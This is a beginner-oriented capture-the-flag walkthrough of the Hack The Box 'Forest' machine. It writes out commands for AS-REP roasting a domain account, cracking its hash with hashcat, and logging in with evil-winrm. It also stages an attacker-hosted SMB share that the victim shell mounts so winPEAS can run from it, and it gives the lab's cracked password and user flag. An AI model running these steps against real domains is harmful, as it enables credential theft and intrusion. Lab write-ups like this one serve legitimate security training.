 ```yaml
---
description: https://app.hackthebox.com/machines/Forest
---
```


# 🤼 Forest

<figure><img src="../../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

I'm going to do this machine with the guided mode for beginner-friendly methodology →

**For which domain is this machine a Domain Controller?**

<figure><img src="../../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

**Answer:** htb.local

**Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM**

**Answer:** LDAP

**Explanation:** LDAP is often used to store directory information, such as user profiles, organizational structures, and other public information. Allowing anonymous access facilitates read-only access to this public information without requiring explicit authentication. For example, an organization might use LDAP to store contact information, and anonymous access allows users to search and retrieve this data without needing to authenticate.

In some cases, LDAP is used to provide a directory service where users can search for and retrieve information without the need for authentication. For instance, an LDAP directory might store information about printers, network devices, or other resources that users need to discover.

Anonymous access can simplify the setup process, especially for services that don't require strict access controls. For instance, if an application only needs to perform read operations on a public LDAP directory, allowing anonymous access can reduce the complexity of the authentication process.

**Which user has Kerberos Pre-Authentication disabled?**

```
GetNPUsers.py htb.local/ -dc-ip 10.129.208.8 -request -format hashcat
```

<figure><img src="../../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

**Answer:** svc-alfresco

**What is the password of the user svc-alfresco?**

First we put the hash in a file .txt

then we went on the command:

<figure><img src="../../../.gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

<pre><code><strong>hashcat -m 18200 -a 0 hashsvc.txt /usr/share/wordlists/rockyou.txt 
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

**Answer:** s3rvice

**Submit the flag located on the svc-alfresco user's desktop.**

```
evil-winrm -i 10.129.208.8 -u svc-alfresco -p s3rvice
```

<figure><img src="../../../.gitbook/assets/image (451).png" alt=""><figcaption></figcaption></figure>

**Answer:** d1a15ecc2dcb0510684f11979d183dfc

**Which group has WriteDACL permissions over the HTB.LOCAL domain? Give the group name without the `@htb.local`**

while installing boodhound to map the domain, i encountered an error :

```
pip install bloodhound
```

<figure><img src="../../../.gitbook/assets/image (452).png" alt=""><figcaption></figcaption></figure>

just type in this to fix error ->

```
pip install impacket==0.9.22
```

Just before that we will install winpeas ->

[https://github.com/carlospolop/PEASS-ng/releases/tag/20240303-ce06043c](https://github.com/carlospolop/PEASS-ng/releases/tag/20240303-ce06043c)

Make a directory called smb on your local machine, CD into it and out the winpeas in it.

then make a smb server locally&#x20;

```
impacket-smbserver Forest $(pwd) -smb2support -user felix -password felix
```

<figure><img src="../../../.gitbook/assets/image (471).png" alt=""><figcaption></figcaption></figure>

* `impacket-smbserver`: This is the command to start the SMB server using the Impacket tool.
* `Forest`: This is the name of the SMB share you want to create. You can replace "Forest" with any name you prefer for your share.
* `$(pwd)`: This is a Unix/Linux command that expands the current working directory. It ensures that the SMB server is created in the current directory.
* `-smb2support`: This flag enables support for the SMB2 protocol, which is an improvement over the older SMB1 protocol.

Go back on the shell and create those variables:

```
$pass = convertto-securestring 'felix' -AsPlainText -Force
```

then&#x20;

```
$cred = New-Object System.Management.automation.PSCredential('felix', $pass)
```

final product should look like this:

<figure><img src="../../../.gitbook/assets/image (472).png" alt=""><figcaption></figcaption></figure>

1. `$pass = convertto-securestring 'felix' -AsPlainText -Force`: This line of code converts the plain text password 'felix' into a secure string using the `ConvertTo-SecureString` cmdlet. The `-AsPlainText` parameter ensures that the password is treated as plain text, and the `-Force` parameter confirms that you want to convert plain text into a secure string.
2. `$cred = New-Object System.Management.Automation.PSCredential('felix', $pass)`: This line of code creates a new credential object using the `New-Object` cmdlet. The credential object is created with the username 'felix' and the secure string password you created in the previous step. This object can be used for authentication purposes in various PowerShell cmdlets that require credentials. In summary, on a shell, you needed to create a secure string and a credential object to securely handle sensitive information, such as usernames and passwords, while adhering to security best practices.

Then for the final steps:

```
New-PSDrive -Name felix -PSProvider FileSystem -Credential $cred -Root \\10.10.14.79\Forest
```

This command creates a new PowerShell drive named "felix" using the `New-PSDrive` cmdlet. The drive is connected to a specific location using the `-Root` parameter and the FileSystem provider. Here's a breakdown of the command:

1. `-Name felix`: This parameter specifies the name of the new PowerShell drive, which is "felix" in this case.
2. `-PSProvider FileSystem`: This parameter sets the provider for the new drive to the FileSystem provider. The FileSystem provider is used to manage files and directories on a local or remote computer.
3. `-Credential $cred`: This parameter specifies the credential object `$cred` for authenticating access to the remote SMB share.
4. `-Root \\10.10.14.79\Forest`: This parameter sets the root path of the new drive to the remote SMB share "Forest" on the host "10.10.14.79". By creating this new drive, you can interact with the remote SMB share as if it were a local drive. This can be useful for various tasks, such as copying files, listing directories, and performing other file management operations.

Now if you did everything right the local smbserver looks like this:

<figure><img src="../../../.gitbook/assets/image (453).png" alt=""><figcaption></figcaption></figure>

from your shell, to enter the share you need to:

<figure><img src="../../../.gitbook/assets/image (454).png" alt=""><figcaption></figcaption></figure>

now you just need to execute the winPEAS file:

<figure><img src="../../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

set the winPEAS aside and open another shelll:

<figure><img src="../../../.gitbook/assets/image (456).png" alt=""><figcaption></figcaption></figure>

Now do the same thing as earlier but change the name of the share:

<figure><img src="../../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>
